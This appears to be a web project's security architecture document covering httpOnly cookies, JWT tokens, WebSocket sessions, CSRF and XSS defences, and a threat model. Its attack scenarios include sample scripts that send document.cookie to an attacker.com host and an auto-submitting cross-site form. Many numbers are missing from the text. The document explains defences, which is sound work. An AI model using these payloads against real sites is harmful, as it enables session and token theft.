

 Security Architecture

 Table of Contents

. [Security Overview](security-overview)
. [Cookie Security](cookie-security)
. [Token Management](token-management)
. [Session Isolation](session-isolation)
. [CSRF Protection](csrf-protection)
. [XSS Protection](xss-protection)
. [Best Practices](best-practices)
. [Security Audit Checklist](security-audit-checklist)
. [Threat Model](threat-model)

---

 Security Overview

The transport layer implements a defense-in-depth security model with multiple layers:

```

 Layer : HTTP-ONLY Cookies (XSS Protection)    

 Layer : SameSite=strict (CSRF Protection)     

 Layer : HTTPS Only (Production)               

 Layer : JWT Signature Verification            

 Layer : Session Expiration                    

 Layer : Server-Side Session Tracking          

```

 Key Security Principles

. Zero Trust: Never trust client-provided tokens
. Defense in Depth: Multiple layers of security
. Least Privilege: Minimal access rights
. Secure by Default: Security settings enforced in production
. Fail Securely: Deny access on error

---

 Cookie Security

 HTTP-ONLY Cookies

Tokens are stored in HTTP-ONLY cookies, making them inaccessible to JavaScript.

Implementation:

```typescript
reply.setCookie('access_token', accessToken, {
	httpOnly: true, // Cannot be accessed via JavaScript
	secure: isProduction, // HTTPS only in production
	sameSite: 'strict', // CSRF protection
	path: '/',
	maxAge: , //  minutes
});
```

Why HTTP-ONLY?

- Prevents XSS attacks from stealing tokens
- Cannot be read by malicious JavaScript
- Automatically managed by browser
- Sent with every request to origin

 Cookie Attributes Explained

| Attribute  | Value         | Purpose                                     |
| ---------- | ------------- | ------------------------------------------- |
| `httpOnly` | `true`        | Prevents JavaScript access (XSS protection) |
| `secure`   | `true` (prod) | HTTPS only (man-in-the-middle protection)   |
| `sameSite` | `'strict'`    | CSRF protection (only sent to same origin)  |
| `path`     | `'/'`         | Cookie available for all paths              |
| `maxAge`   | `` (m)    | Automatic expiration                        |

 Cookie Paths

Different cookies for different purposes:

```typescript
// Access token: Available everywhere
reply.setCookie('access_token', token, {
	path: '/',
	maxAge: , //  minutes
});

// Refresh token: Only for refresh endpoint
reply.setCookie('refresh_token', token, {
	path: '/api/auth/refresh', // Restricted path
	maxAge: , //  days
});
```

Why restrict refresh token path?

- Limits exposure surface
- Only refresh endpoint needs it
- Reduces risk if other endpoints compromised

 Cookie Security Risks

| Risk                 | Mitigation                                     |
| -------------------- | ---------------------------------------------- |
| XSS stealing cookies | HTTP-ONLY flag prevents JavaScript access      |
| CSRF attacks         | SameSite=strict prevents cross-origin requests |
| Man-in-the-middle    | Secure flag requires HTTPS in production       |
| Cookie theft         | Short expiration ( minutes) limits damage     |

---

 Token Management

 Access Token

Properties:

- Short-lived ( minutes)
- Used for API authentication
- Stored in HTTP-ONLY cookie
- Automatically refreshed

JWT Structure:

```typescript
{
	userId: string;
	exp: number; // Expiration timestamp (seconds)
	iat: number; // Issued at timestamp
}
```

Verification:

```typescript
async verifyAccessToken(token: string): Promise<TokenPayload> {
  try {
    const decoded = jwt.verify(token, this.jwtSecret) as any;
    return {
      userId: decoded.userId,
      expiresAt: decoded.exp    // Convert to milliseconds
    };
  } catch (error) {
    throw new Error('Invalid or expired token');
  }
}
```

 Refresh Token

Properties:

- Long-lived ( days)
- Used only for token refresh
- Stored in HTTP-ONLY cookie with restricted path
- Single-use in production (should be rotated)

Security Considerations:

- Never sent to regular API endpoints
- Only sent to `/api/auth/refresh`
- Should be rotated on each use (TODO for production)
- Blacklisted on logout

 Token Refresh Flow



CRITICAL: When access token is refreshed, ALL WebSocket sessions for that user are updated:

```typescript
// AuthController.ts
await this.sessionManager.refreshSessionToken(userId, newAccessToken);
```

This ensures multi-device support: refresh on one device updates all devices.

 Token Expiration

Access Token:

- Expires after  minutes
- Warning sent  minutes before expiration
- Frontend automatically refreshes
- WebSocket closed if expired and not refreshed

Refresh Token:

- Expires after  days
- User must re-authenticate after expiration
- Cannot be refreshed (must login again)

---

 Session Isolation

 Server-Side Session Management

Each WebSocket connection has an isolated session tracked server-side:

```typescript
interface WebSocketSession {
	clientId: string; // Unique connection ID
	userId: string; // User ID
	accessToken: string; // Current access token
	tokenExpiresAt: number; // Expiration timestamp
	createdAt: number; // Session creation time
	lastActivity: number; // Last request time
	subscribedEvents: Set<string>; // Subscribed events
}
```

Session Lifecycle:

. Creation: On WebSocket upgrade with valid cookies
. Validation: Fast check on each message (expiry only)
. Update: Token refreshed via HTTP updates all sessions
. Cleanup: Automatic removal of expired sessions (every s)
. Destruction: On disconnect or token expiration

 Multi-Device Support

One user can have multiple sessions (devices):

```
User: user-
 Session : client_abc (desktop)
    Subscribed: ['task:created', 'task:updated']
 Session : client_def (mobile)
    Subscribed: ['task:created']
 Session : client_ghi (tablet)
     Subscribed: ['worker:heartbeat']
```

Token refresh updates ALL sessions:

```typescript
async refreshSessionToken(userId: string, newAccessToken: string) {
  const sessions = this.userSessions.get(userId);
  sessions.forEach(clientId => {
    const session = this.sessions.get(clientId);
    session.accessToken = newAccessToken;
    session.tokenExpiresAt = newExpiresAt;
  });
}
```

 Session Security

Isolation:

- Each session has own client ID
- Sessions cannot access each other's data
- User can only see their own sessions

Cleanup:

- Expired sessions removed every  seconds
- Disconnected sessions removed immediately
- Memory leaks prevented

Monitoring:

- Track session count per user
- Alert on suspicious activity (> sessions)
- Log session creation/destruction

---

 CSRF Protection

 SameSite Cookie Attribute

Primary CSRF defense:

```typescript
reply.setCookie('access_token', token, {
	sameSite: 'strict', // Only sent to same-origin requests
});
```

How it works:

- Cookies only sent to requests from same origin
- Cross-origin requests do NOT include cookies
- Attackers cannot trigger authenticated requests

 CSRF Attack Prevention

Scenario: Attacker's website tries to make request

```html
<!-- attacker.com -->
<form action="https://yourapp.com/api/tasks" method="POST">
	<input name="name" value="Malicious task" />
</form>
<script>
	document.forms[].submit();
</script>
```

Result: Request fails because:

. Request is cross-origin (attacker.com → yourapp.com)
. Browser doesn't send cookies due to sameSite=strict
. Backend rejects unauthenticated request

 WebSocket CSRF Protection

WebSocket connections also protected:

. Cookies sent during WebSocket upgrade
. Same-origin policy applies
. Cross-origin WebSocket connections blocked by browser

---

 XSS Protection

 HTTP-ONLY Cookies

Primary XSS defense:

```typescript
reply.setCookie('access_token', token, {
	httpOnly: true, // Cannot be accessed via JavaScript
});
```

Attack Scenario:

```html
<!-- Attacker injects malicious script -->
<script>
	// Try to steal token
	console.log(document.cookie); //  Cannot see httpOnly cookies

	// Try to send token
	fetch('https://attacker.com/steal?token=' + document.cookie);
	//  Token not in document.cookie
</script>
```

Result: Attack fails because JavaScript cannot access tokens.

 Input Sanitization

All input sanitized using Zod schemas:

```typescript
export const CreateTaskSchema = z.object({
	name: sanitizedString('Task name required'),
	description: optionalSanitizedText(),
});
```

sanitizedString removes:

- HTML tags
- JavaScript code
- SQL injection attempts
- Special characters

 Content Security Policy (CSP)

Recommended CSP header:

```typescript
reply.header(
	'Content-Security-Policy',
	[
		"default-src 'self'",
		"script-src 'self'",
		"style-src 'self' 'unsafe-inline'", // Vue styles
		"connect-src 'self' ws: wss:", // WebSocket
		"img-src 'self' data: https:",
		"font-src 'self'",
		"object-src 'none'",
		"base-uri 'self'",
		"form-action 'self'",
	].join('; ')
);
```

 XSS Attack Vectors

| Vector           | Protection                        |
| ---------------- | --------------------------------- |
| Stored XSS       | Input sanitization (Zod)          |
| Reflected XSS    | Input validation, output encoding |
| DOM-based XSS    | Vue.js auto-escaping              |
| Token theft      | HTTP-ONLY cookies                 |
| Cookie injection | SameSite + Secure flags           |

---

 Best Practices

 . Always Use HTTPS in Production

```typescript
const isProduction = process.env.NODE_ENV === 'production';

reply.setCookie('access_token', token, {
	secure: isProduction, // HTTPS only
});
```

 . Never Log Sensitive Data

```typescript
//  BAD: Logs token
console.log('User logged in:', { userId, accessToken });

//  GOOD: No sensitive data
console.log('User logged in:', { userId });
```

 . Validate All Input

```typescript
//  Use Zod schemas
const CreateTaskSchema = z.object({
	name: sanitizedString('Name required'),
	priority: positiveNumber(),
});

//  Never trust raw input
const { name } = request.body; // Unsafe!
```

 . Handle Errors Securely

```typescript
//  BAD: Leaks implementation details
catch (error) {
  throw new Error(`Database query failed: ${error.message}`);
}

//  GOOD: Generic error message
catch (error) {
  console.error('[Internal] Database error:', error);
  throw new Error('Failed to create task');
}
```

 . Rate Limiting

TODO for production:

```typescript
await fastify.register(require('@fastify/rate-limit'), {
	max: , //  requests
	timeWindow: ' minute', // per minute per IP
});
```

 . Security Headers

```typescript
// Helmet.js for security headers
await fastify.register(require('@fastify/helmet'), {
	contentSecurityPolicy: {
		directives: {
			defaultSrc: ["'self'"],
			styleSrc: ["'self'", "'unsafe-inline'"],
			scriptSrc: ["'self'"],
			imgSrc: ["'self'", 'data:', 'https:'],
		},
	},
	hsts: {
		maxAge: ,
		includeSubDomains: true,
	},
});
```

 . Secure Password Storage

```typescript
import bcrypt from 'bcrypt';

// Hash password with salt
const hashedPassword = await bcrypt.hash(password, );

// Verify password
const isValid = await bcrypt.compare(password, hashedPassword);
```

 . Monitor Failed Authentication

```typescript
// Track failed attempts
const failedAttempts = new Map<string, number>();

async login(email: string, password: string) {
  const attempts = failedAttempts.get(email) || ;

  if (attempts >= ) {
    throw new Error('Too many failed attempts. Try again later.');
  }

  try {
    const user = await this.authenticate(email, password);
    failedAttempts.delete(email);  // Reset on success
    return user;
  } catch (error) {
    failedAttempts.set(email, attempts + );
    throw error;
  }
}
```

---

 Security Audit Checklist

 Authentication & Authorization

- [ ] HTTP-ONLY cookies enabled
- [ ] Secure flag enabled in production
- [ ] SameSite=strict enabled
- [ ] Access tokens expire after  minutes
- [ ] Refresh tokens expire after  days
- [ ] JWT secret strong and rotated regularly
- [ ] Password hashing with bcrypt (+ rounds)
- [ ] Failed login attempts tracked and limited

 Network Security

- [ ] HTTPS enforced in production
- [ ] CORS properly configured
- [ ] WebSocket upgrade requires authentication
- [ ] Rate limiting implemented
- [ ] DDoS protection in place (CDN/WAF)

 Input Validation

- [ ] All input validated with Zod schemas
- [ ] HTML sanitization enabled
- [ ] SQL injection prevented (parameterized queries)
- [ ] Path traversal prevented
- [ ] File upload validation (if applicable)

 Session Management

- [ ] Server-side session tracking
- [ ] Expired sessions cleaned up automatically
- [ ] Session fixation prevented
- [ ] Multi-device support working
- [ ] Session timeout implemented

 XSS Protection

- [ ] HTTP-ONLY cookies prevent token theft
- [ ] Input sanitization (sanitizedString)
- [ ] Output encoding (Vue auto-escape)
- [ ] Content Security Policy configured
- [ ] No inline scripts in production

 CSRF Protection

- [ ] SameSite=strict on all cookies
- [ ] CSRF tokens for state-changing operations (optional)
- [ ] Origin header validation

 Error Handling

- [ ] No sensitive data in error messages
- [ ] Errors logged server-side
- [ ] Generic errors to client
- [ ] Stack traces hidden in production

 Logging & Monitoring

- [ ] Authentication events logged
- [ ] Failed login attempts logged
- [ ] Suspicious activity monitored
- [ ] Session creation/destruction logged
- [ ] No sensitive data in logs

 Dependencies

- [ ] All dependencies up to date
- [ ] No known vulnerabilities (npm audit)
- [ ] Minimal dependencies
- [ ] Security patches applied promptly

---

 Threat Model

 Threats We Protect Against

| Threat            | Protection            | Risk Level |
| ----------------- | --------------------- | ---------- |
| XSS token theft   | HTTP-ONLY cookies     | HIGH       |
| CSRF attacks      | SameSite=strict       | HIGH       |
| Man-in-the-middle | HTTPS + Secure flag   | HIGH       |
| Token replay      | Short expiration (m) | MEDIUM     |
| Brute force login | Rate limiting (TODO)  | MEDIUM     |
| Session fixation  | Server-side sessions  | MEDIUM     |
| SQL injection     | Input validation      | LOW        |
| Path traversal    | Input validation      | LOW        |

 Threats NOT Protected Against

| Threat          | Reason                  | Mitigation         |
| --------------- | ----------------------- | ------------------ |
| Phishing        | Out of scope            | User education     |
| Keyloggers      | Out of scope            | Antivirus software |
| Physical access | Out of scope            | Device security    |
| Insider threats | Out of scope            | Access controls    |
| DDoS attacks    | Requires infrastructure | CDN/WAF            |

 Attack Scenarios

 Scenario : XSS Attack

Attack:

```html
<script>
	fetch('https://attacker.com?token=' + document.cookie);
</script>
```

Defense:

- HTTP-ONLY cookies prevent document.cookie access
- CSP blocks unauthorized fetch
- Input sanitization prevents script injection

Result: Attack fails

 Scenario : CSRF Attack

Attack:

```html
<!-- attacker.com -->
<form action="https://yourapp.com/api/tasks" method="POST">
	<input name="name" value="Malicious" />
</form>
<script>
	document.forms[].submit();
</script>
```

Defense:

- SameSite=strict prevents cookies being sent
- Request rejected (no authentication)

Result: Attack fails

 Scenario : Man-in-the-Middle

Attack: Intercept HTTP traffic to steal tokens

Defense:

- HTTPS encrypts all traffic
- Secure flag prevents cookies over HTTP
- HSTS forces HTTPS

Result: Attack fails (if HTTPS properly configured)

---

 Environment Variables

CRITICAL Security Variables:

```bash
 JWT Secret: Use strong random key, rotate regularly
JWT_SECRET=your-very-strong-secret-key-here-use--chars-minimum

 Cookie Secret: Use different key than JWT
COOKIE_SECRET=your-cookie-secret-key-different-from-jwt

 Environment
NODE_ENV=production   Enables secure cookies

 HTTPS (production)
FORCE_HTTPS=true
```

Generating Secrets:

```bash
 Generate secure random secret
openssl rand -base 
```

Secret Rotation:

- Rotate JWT_SECRET every  days
- Keep old secret for  hours (grace period)
- Update all sessions after rotation

---

 Security Updates

Stay informed about security vulnerabilities:

. Subscribe to security advisories
. Run `npm audit` regularly
. Update dependencies monthly
. Review security logs weekly
. Conduct security audits quarterly

Useful Commands:

```bash
 Check for vulnerabilities
npm audit

 Fix vulnerabilities
npm audit fix

 Check outdated packages
npm outdated
```

---

 References

- [OWASP Top ](https://owasp.org/www-project-top-ten/)
- [JWT Best Practices](https://tools.ietf.org/html/rfc)
- [Cookie Security](https://owasp.org/www-community/controls/SecureFlag)
- [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [Transport Layer Documentation](./TRANSPORT_LAYER.md)
- [API Reference](../../shared-frontend-backend/docs/API_REFERENCE.md)
